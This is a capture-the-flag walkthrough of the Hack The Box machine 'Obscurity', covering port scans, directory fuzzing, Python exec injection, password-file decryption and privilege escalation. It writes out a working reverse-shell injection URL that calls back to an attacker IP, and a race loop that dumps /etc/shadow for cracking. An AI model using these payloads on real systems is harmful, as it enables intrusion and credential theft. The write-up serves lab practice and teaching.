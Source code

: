 ```yaml
---
layout: default
---
```

## Obscurity
###### Retired May 2020
![](https://www.hackthebox.eu/storage/avatars/8c606d79541774c87ab0ee5705821323.png)

##### Intro
Static code analysis! Initial foothold was pretty easy, user was a little more involved, and root was quick. Full-time developers would absolutely crush this box.

Start off with a quick nmap looking for open ports:
```bash
nmap -sS -v -n obscurity.htb -p 1-65535
```

![](https://yaboygmoney.github.io/htb/images/obscurity/nmap1.png)

nmap showed ssh and http open on 22 and 8080, respectively. For more information, I ran
```bash
nmap -sV -n obscurity.htb -p 22,80,8080 -oN nmap.results
```

![](https://yaboygmoney.github.io/htb/images/obscurity/nmap2.png)

It appears as though the website is being ran on a custom web server, confidently named BadHTTPServer. Open up ```http://obscurity.htb:8080``` in Firefox and land on a web page.

![](https://yaboygmoney.github.io/htb/images/obscurity/webpage.png)

Scrolling down, there's a note to the devs that the current source is located in a development directory.

![](https://yaboygmoney.github.io/htb/images/obscurity/devNote.png)

We can find this quickly with a tool called ```wfuzz```. ```wfuzz``` lets you fuzz particular segments of a URL by replacing what part you would like to fuzz with ```FUZZ```. All it needs is a wordlist and the URL. ```wfuzz``` will print out the result of each request it makes, so it's helpful to find only the responses that come back valid. To do that, just take on ```| grep -v 404``` to ingore the 404 File Not Found results. The whole command looks like
```bash
wfuzz -w /usr/share/wordlists/dirb/common.txt http://10.10.10.168:8080/FUZZ/SuperSecureServer.py | grep -v 404
```

![](https://yaboygmoney.github.io/htb/images/obscurity/wfuzz.png)

wfuzz found the valid URL ```http://obscurity.htb:8080/develop/SuperSecureServer.py```. There, we can see the source code for the server.

![](https://yaboygmoney.github.io/htb/images/obscurity/serverCode.png)

Looking down towards the bottom of the code, there are some comments on a couple of lines of code.
```python
def serveDoc(self, path, docRoot):
        path = urllib.parse.unquote(path)
        try:
            info = "output = 'Document: {}'" # Keep the output for later debug
            exec(info.format(path)) # This is how you do string formatting, right?
            cwd = os.path.dirname(os.path.realpath(__file__))
            docRoot = os.path.join(cwd, docRoot)
            if path == "/":
                path = "/index.html"
```

The [exec](https://pythonprogramming.net/python-exec-tutorial/) builtin allows developers (and hackers) to execute python code from within that input. To abuse this for a shell, a netcat listener is required.
```bash
nc -nvlp 1234
````

Now that the listener is set up to catch the shell, we need to send a get request to
```bash
http://obscurity.htb:8080/';s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.28",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

This web request injects the [python reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) into the ```exec``` function, causing our payload to be executed. Make the request either via curl or through the browser (I went browser) and bam, shell.

![](https://yaboygmoney.github.io/htb/images/obscurity/initialShell.png)

Once we land on the machine as www-data, we need to elevate our privileges to get user. We can see in the user robert's home directory there is a ```SuperSecureCrypt.py``` file, as well as a ```passwordreminder.txt``` file. 

![](https://yaboygmoney.github.io/htb/images/obscurity/robertDir.png)

Looking at the ```SuperSecureCrypt.py```, the program takes an input file to encrypt or decrypt, a string value for the key, and an output file. 

![](https://yaboygmoney.github.io/htb/images/obscurity/parser.png)

We're also given ```check.txt``` file and the output of the encryption in the form of ```out.txt```. 

![](https://yaboygmoney.github.io/htb/images/obscurity/checkOut.png)

The cool part is that we don't need to reverse engineer the encryption process if we have two pieces already. We can just unmath it. To do that, I sent the input file to be decrypted as the output, the key as the contents of check.txt, and set the ```-d``` option. The output will be the key that was used to encyrpt the file.

```bash
python3 SuperSecureCrypt.py -i out.txt -k "$(cat check.txt)" -d -o /tmp/ybgm.txt
```
The result kicked out the key ```alexandrovich``` several times over. Now we can run the same command again but to decrypt the ```passwordreminder.txt``` file and passing the output of our previous command as the key.

![](https://yaboygmoney.github.io/htb/images/obscurity/keyCrack.png)

```bash
python3 SuperSecureCrypt.py -i passwordreminder.txt -k "($cat /tmp/ybgm.txt)" -o /tmp/ybgm2.txt -d
```

The contents of the new file contain robert's password: ```SecThruObsFTW```.

![](https://yaboygmoney.github.io/htb/images/obscurity/password.png)

Now we can SSH in as robert and get out of this web-based shell and more importantly: get user.

```bash
ssh robert@obscurity.htb
cat user.txt
```

![](https://yaboygmoney.github.io/htb/images/obscurity/user.png)

```sudo -l``` shows that we can run the ```/home/robert/BetterSSH/BetterSSH.py``` file as root.

![](https://yaboygmoney.github.io/htb/images/obscurity/sudoL.png)

The file has permissions of ```-rwxr-xr-x 1 root   root```. I can't change it, as root owns the file, so I need a different way than just overwriting or editing the file. I started looking through the code to find a vulnerability, similar to the web server I exploited earlier.

The code segment that we care the most about looks like this:
```python
path = ''.join(random.choices(string.ascii_letters + string.digits, k=8))
session = {"user": "", "authenticated": 0}
try:
    session['user'] = input("Enter username: ")
    passW = input("Enter password: ")

    with open('/etc/shadow', 'r') as f:
        data = f.readlines()
    data = [(p.split(":") if "$" in p else None) for p in data]
    passwords = []
    for x in data:
        if not x == None:
            passwords.append(x)

    passwordFile = '\n'.join(['\n'.join(p) for p in passwords]) 
    with open('/tmp/SSH/'+path, 'w') as f:
        f.write(passwordFile)
    time.sleep(.1)
    salt = ""
    realPass = ""
    for p in passwords:
        if p[0] == session['user']:
            salt, realPass = p[1].split('$')[2:]
            break
```

This code is opening up ```/etc/shadow``` and writing the contents to a password file in ```/tmp/SSH``` with a random filename so later it can compare the results of a provided password to authenticate to this 'better' SSH application. Unfortunately, it's deleting the file as soon as it's finished with it, making it impossible to manually read it during program execution. 
```python
if hash == realPass:
        print("Authed!")
        session['authenticated'] = 1
    else:
        print("Incorrect pass")
        os.remove('/tmp/SSH/'+path)
        sys.exit(0)
    os.remove(os.path.join('/tmp/SSH/',path))
except Exception as e:
    traceback.print_exc()
    sys.exit(0)
```

On first run, the code breaks because ```/tmp/SSH``` doesn't exist, so that needs to be created first.
```bash
mkdir /tmp/SSH
```

To catch the contents of the file that is written before it is deleted, I wrote a script that constantly reads the contents of the all of the files in the ```/tmp/SSH``` directory and write them to a new file that wouldn't be deleted. We need to read every file in this directory regardless of name, because the first line of the ```BetterSSH.py``` file is creating a random filename
```python
path = ''.join(random.choices(string.ascii_letters + string.digits, k=8))
```

The script to catch the temp files looks like:

```bash
#!/bin/bash

while :
do
  cat /tmp/SSH/* >> /tmp/results.txt
done
```
I kicked off that script and then I used another window to SSH back in as robert. Then I ran
```bash
sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```
and logged in as robert and then killed the execution of my other script. Then I opened the ```/tmp/results.txt``` file and had the contents of the shadow file.

![](https://yaboygmoney.github.io/htb/images/obscurity/dumped.png)

From there, it was as easy as running the hash through ```john``` and logging in.

![](https://yaboygmoney.github.io/htb/images/obscurity/crackedRoot.png)

![](https://yaboygmoney.github.io/htb/images/obscurity/root.png)

![](https://media.giphy.com/media/l4JySAWfMaY7w88sU/giphy.gif)
